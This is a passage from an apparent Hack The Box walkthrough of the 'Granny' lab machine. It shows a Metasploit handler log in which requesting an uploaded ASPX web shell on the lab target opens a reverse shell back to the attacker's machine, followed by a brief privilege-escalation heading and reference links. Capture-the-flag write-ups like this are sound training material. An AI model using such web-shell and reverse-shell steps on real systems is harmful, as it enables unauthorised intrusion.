 ![](/assets/images/HTB/granny/granny-move-webshell.png)

Now all thats left to do is to start our handler and request the `http://10.10.10.15/test.aspx` endpoint.

```
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.14:443
msf6 exploit(multi/handler) > curl http://10.10.10.15/test.aspx
[*] exec: curl http://10.10.10.15/test.aspx


[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.15
msf6 exploit(multi/handler) > [*] Command shell session 11 opened (10.10.14.14:443 -> 10.10.10.15:1032) at 2021-05-06 17:23:20 -0400
```

Booyah.

## Phase 3: Privilege Escalation
I wanted to do this box with using meterpreter or metasploit, but sadly my shell kept dying. I switched to meterpreter for more stability.


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[ippsec]: https://www.youtube.com/watch?v=ZfPVGJGkORQ&t=1s
[wes]: https://github.com/bitsadmin/wesng
[exploit]: https://www.exploit-db.com/exploits/6705
